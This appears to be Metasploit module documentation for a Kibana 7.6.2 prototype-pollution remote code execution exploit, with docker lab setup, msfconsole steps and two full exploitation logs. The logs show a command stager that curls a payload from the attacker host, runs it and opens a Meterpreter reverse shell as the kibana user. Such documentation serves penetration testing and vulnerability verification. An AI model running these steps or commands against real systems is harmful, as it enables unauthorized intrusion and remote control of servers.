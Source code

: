 ## Vulnerable Application

Kibana before version 7.6.3 suffers from a prototype pollution bug within the
Upgrade Assistant. By setting a new constructor.prototype.sourceURL value we're
able to execute arbitrary code.
Code execution is possible through two different ways. Either by sending data
directly to Elastic, or using Kibana to submit the same queries. Either method
enters the polluted prototype for Kibana to read.

Kibana will either need to be restarted, or collection happens (unknown time) for
the payload to execute. Once it does, cleanup must delete the .kibana_1 index
for Kibana to restart successfully. Once a callback does occur, cleanup will
happen allowing Kibana to be successfully restarted on next attempt.

### Install

A docker version of Kibana and Elastic are required. Both can be run together in a working mode via:

```
docker run -it --rm --name es01 -e "discovery.type=single-node" -p 9200:9200 docker.elastic.co/elasticsearch/elasticsearch:7.6.2
docker run -it --rm --name kib01 --link es01:elasticsearch -p 5601:5601 docker.elastic.co/kibana/kibana:7.6.2
```

To restart Kibana (easier during exploitation) issue the following command: `docker kill kib01; docker start kib01`

To wipe the boxes: `docker kill kib01; docker kill es01; docker container rm es01; docker container rm kib01`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use use exploit/linux/http/kibana_upgrade_assistant_telemetry_rce`
1. Do: `set rhost [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell as the kibana user.

## Options

## Scenarios

### Kibana 7.6.2 on Docker (Elastic Target)

In this scenario, the cleanup process within Kibana kicked automatically, so no reboot of the host/service was required.

```
[*] Processing kibana_telem.rb for ERB directives.
resource (kibana_telem.rb)> use exploit/linux/http/kibana_upgrade_assistant_telemetry_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
resource (kibana_telem.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (kibana_telem.rb)> set rport 9200
rport => 9200
resource (kibana_telem.rb)> set verbose true
verbose => true
resource (kibana_telem.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Creating index
[*] Index already exists
[*] Sending index map
[*] Sending telemetry data with payload
[*] Using URL: http://1.1.1.1:8080/1vtNc3Hi
[*] Generated command stager: ["curl -so /tmp/LAbvDplC http://1.1.1.1:8080/1vtNc3Hi;chmod +x /tmp/LAbvDplC;/tmp/LAbvDplC;rm -f /tmp/LAbvDplC"]
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Waiting 1800 seconds for shell (kibana restart/cleanup)
[*] Client 172.17.0.3 (curl/7.29.0) requested /1vtNc3Hi
[*] Sending payload to 172.17.0.3 (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 172.17.0.3:44668) at 2023-10-02 16:46:35 -0400
[*] Removing telemetry data to prevent Kibana locking on restart

meterpreter > getuid
Server username: kibana
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : CentOS 7.7.1908 (Linux 6.5.0-kali1-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Kibana 7.6.2 on Docker (Kibana Target)

```
[*] Processing kibana_telem.rb for ERB directives.
resource (kibana_telem.rb)> use exploit/linux/http/kibana_upgrade_assistant_telemetry_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
resource (kibana_telem.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (kibana_telem.rb)> set rport 9200
rport => 9200
resource (kibana_telem.rb)> set verbose true
verbose => true
resource (kibana_telem.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > set target 1
target => 1
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > set rport 5601
rport => 5601
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > check
[*] 127.0.0.1:5601 - The target appears to be vulnerable. Exploitable Version Detected: 7.6.2
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Creating index
[*] Index already exists
[*] Sending index map
[*] Sending telemetry data with payload
[*] Using URL: http://1.1.1.1:8080/PbT2tbJKQyU
[*] Generated command stager: ["curl -so /tmp/AcwIGAZC http://1.1.1.1:8080/PbT2tbJKQyU;chmod +x /tmp/AcwIGAZC;/tmp/AcwIGAZC;rm -f /tmp/AcwIGAZC"]
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Waiting 1800 seconds for shell (kibana restart/cleanup)
```

After several minutes, the host was rebooted instead of waiting for the cleanup process to happen. Docker host reboot was done
with the following command: `docker kill kib01; docker start kib01`

```
[*] Client 172.17.0.3 (curl/7.29.0) requested /PbT2tbJKQyU
[*] Sending payload to 172.17.0.3 (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 172.17.0.3:53100) at 2023-10-02 16:51:34 -0400
[-] Cleanup must happen on the Elastic Database for Kibana to start. You need to DELETE /.kibana_1

meterpreter > getuid
Server username: kibana
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : CentOS 7.7.1908 (Linux 6.5.0-kali1-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
